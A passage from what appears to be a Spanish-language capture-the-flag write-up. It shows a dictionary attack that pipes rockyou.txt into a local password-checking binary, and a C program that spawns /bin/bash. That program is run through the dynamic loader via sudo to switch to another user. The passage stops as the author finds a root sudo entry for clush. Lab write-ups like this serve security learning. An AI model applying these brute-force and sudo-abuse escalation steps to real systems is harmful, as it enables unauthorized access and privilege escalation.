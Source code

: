 parece que tendre que hacer un ataque de diccionario, esto lo hare de una forma bastante sencilla

```ruby
while IFS= read -r palabra; do echo "$palabra" | ./password_nova ; done < rockyou.txt |grep -v 'Contraseña incorrecta.'
```
![image](https://github.com/user-attachments/assets/2da1b208-edb7-45f3-802c-bb00e8966bc2)

ya obtenida la credencial procedo a cambiar de user

### nova

ahora siendo el user `nova` puedo ejecutar `/lib64/ld-linux-x86-64.so.2` como el user `maci`

![image](https://github.com/user-attachments/assets/1783a8fd-127a-427b-9366-e245db37d8bc)

para lograr escalar a `maci` se debe crear un binario que ejecute una `/bin/bash` para luego ejecutarlo con el cargador dinamico `/lib64/ld-linux-x86-64.so.2`


codigo `c`
```c
#include <stdio.h>
#include <unistd.h>
#include <stdlib.h>

int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
    return 0;
}
```
ahora lo compilo

```ruby
gcc -o exploit code.c
```

el binario debe moverse a un directorio que sea accesible por el user `maci` para que funcione asi que lo muevo a `/tmp` y lo ejecuto con el cargador dinamico

```ruby
sudo -u maci /lib64/ld-linux-x86-64.so.2 ./exploit
```

![image](https://github.com/user-attachments/assets/6650d1d1-e9d0-43f0-8827-ac2a8cc5ea8d)

### maci

con el user `maci` puedo ejecutar el binario `/usr/bin/clush` como `root`

![image](https://github.com/user-attachments/assets/ca568fa0-39a5-4eb2-8935-794cd59e81c3)

aqui demore mucho tiempo ya que testeaba diferentes formas de lograr ejecucion de comandos hasta que despues de un tiempo leyendo la documentacion di con la clave 

